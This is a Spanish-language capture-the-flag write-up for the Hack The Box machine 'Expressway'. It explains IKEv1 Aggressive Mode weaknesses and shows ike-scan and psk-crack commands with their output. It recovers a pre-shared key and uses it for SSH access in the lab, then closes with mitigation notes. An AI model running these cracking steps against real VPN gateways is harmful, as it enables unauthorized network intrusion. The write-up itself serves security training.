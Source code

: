 # IKE — Explicación resumida

- **Qué es:** IKE (Internet Key Exchange) es el protocolo de negociación de claves y parámetros de seguridad para establecer túneles IPsec (VPN).  
- **Versiones:** IKEv1 (antiguo) e IKEv2 (más moderno y seguro).  
- **Modos en IKEv1:**  
  - **Main Mode:** intercambio más seguro en múltiples pasos; no revela datos que permitan ataques offline.  
  - **Aggressive Mode:** intercambio más corto y rápido; puede **revelar Nonce/ID/Hash** que permiten ataques offline contra PSK.  
- **PSK:** Pre-Shared Key, método de autenticación que depende de una clave compartida; si la PSK es débil, puede ser crackeada offline a partir de un handshake de Aggressive Mode.  
- **Flujo de ataque (resumen):** usar `ike-scan` para capturar handshake → `--pskcrack`/`psk-crack` o conversion a formato hash → probar un diccionario (rockyou, etc.) → obtener PSK válido → usar PSK para establecer túnel y acceder a la red interna (si hay mapping/privilegios).

## Resumen máquina htb expressway
- Se detectó **IKEv1 en Aggressive Mode** con autenticación **PSK**.  
- Se extrajo el handshake con `ike-scan` y se crackeó offline con `psk-crack`.  
- PSK encontrada: `freakingrockstarontheroad`.  
- Con la PSK y la identidad IKE (`ike@expressway.htb`) se obtuvo acceso operativo en el laboratorio (SSH).

## Enumeración (comando + salida esencial)
```bash
sudo ike-scan -M -A --pskcrack=output.txt 10.129.106.246
```
Salida relevante:
```
10.129.106.246  Aggressive Mode Handshake returned
    SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK)
    ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
    Nonce(32 bytes)
    KeyExchange(128 bytes)
    Hash(20 bytes)
```
`--pskcrack=output.txt` guarda los parámetros necesarios para el cracking.

## Cracking (comando + resultado)
```bash
psk-crack -d /usr/share/wordlists/rockyou.txt output.txt
```
Resultado:
```
key "freakingrockstarontheroad" matches SHA1 hash c7d8b13...
```

## Qué significa la identidad IKE
- `ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)` es la **identidad IKE** (FQDN) enviada en la negociación.  
- No es necesariamente un usuario UNIX, pero en muchos labs/dispositivos se mapea a una cuenta o a permisos que permiten acceso posterior.  
- En este laboratorio, usar esa identidad + PSK validó la conexión y permitió acceso SSH.

## Notas de mitigación (copiar en reporte)
- Rotar PSK inmediatamente.  
- Deshabilitar Aggressive Mode; usar Main Mode o IKEv2.  
- Preferir autenticación por certificados en lugar de PSK.  
- Evitar 3DES/SHA1/modp1024; forzar cifrados/grupos fuertes (AES, SHA2, modp2048+).  
- Habilitar logging/alertas para negociaciones IKE y accesos.


---


